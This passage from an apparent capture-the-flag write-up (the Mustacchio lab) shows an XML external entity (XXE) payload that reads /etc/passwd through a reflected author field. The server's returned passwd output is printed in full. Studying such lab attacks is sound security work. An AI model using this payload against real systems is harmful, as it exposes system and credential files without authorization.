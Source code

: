 I tried sending it some XML, the name and author fields where reflected back to me.

![XML](/assets/images/2021/06/Mustacchio/04_XML.png "XML")

I next tried to read a file using an XML entity. 

When I sent this XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<root><name>1</name><author>&xxe;</author></root>
```

I got this back from the server:
```
Author : root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
```
